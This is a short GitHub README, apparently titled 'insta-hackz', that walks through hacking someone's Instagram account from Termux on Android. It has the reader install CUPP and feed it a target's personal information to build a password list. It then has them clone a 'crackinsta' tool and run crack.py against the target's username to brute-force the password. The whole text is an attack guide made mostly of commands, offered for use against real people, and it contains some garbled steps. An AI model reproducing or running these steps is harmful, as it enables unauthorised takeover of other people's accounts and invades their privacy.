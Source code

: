 # insta-hackz
ʜᴏᴡ ʜᴀᴄᴋ ɪɴsᴛᴀɢʀᴀᴍ ᴀᴄᴄᴏᴜᴛ ᴜsɪɴɢ ᴛᴇʀᴍᴜx ɪɴ ʏᴏᴜʀ ᴀɴᴅʀᴏɪᴅ ᴅᴇᴠɪᴄᴇ
install termux from play 
$  apt update and upgrade -y 
$  pkg install git -y 
$  pkg install python && python2 -y
$ pkg install python3

THEN INSTALL CUPP FILE TO GENERATE POWERFULL PASSWORDLIST.
TO INSTALL CUPP MAKE A DITECTORY CUPP BY USING THIS COMMAND

$  mkdir cupp

THEN type this command

$ ls

A NEW DIRECTORY WILL BE CREATED NAMED "Cupp" OPEN THE DIRECTORY BY THIS COMMAND

$ cd cupp
$ git clone https://github.com/Mebus/cupp.git
$ ls
$ cd cupp
$ ls

A DIRECTORY IS CREATED NAMED "CUPP.PY" . TO RUN CUPP TYPE THIS

$ python3 cupp.py
 
 A NEW INTERFACE WILL BE APPEAR. THEN TYPE THIS COMMAND.
 
 $ python3 cupp.py -i

 GIVE YOUR TARGET INFORMATION, THEN TYPE "Y" FOR ALL TO GENERATE PASSWORDLIST.
 
 THE PASSWORDLIST WILL BE CREATED.
 
 $ ls
 
 A DIRECTORY IS CREATED WITH YOUR (TARGET) NAME
 THEN CHANGE THE (target).txt  TO pass.txt
 
 $ mv (target).txt pass.txt
 
 OPEN A NEW SESSION.
 
 $ git clone https://github.com/JTECHCODE/crackinsta.git
 $ ls
 
 now instacrack folder appears 
 
 $ cd instacrack
 $ pip install requests
 $ pip install bs4
 
 OPEN THE PASS.TXT CONTENT.
 
 $ cat pass.txt
 $ python crack.py
 
  ENTRE YOUR TARGET USERNAME
 
  ENTRE DELAY SECOND 
  
  WAIT FOR THE PASSWORD TO CRACK.
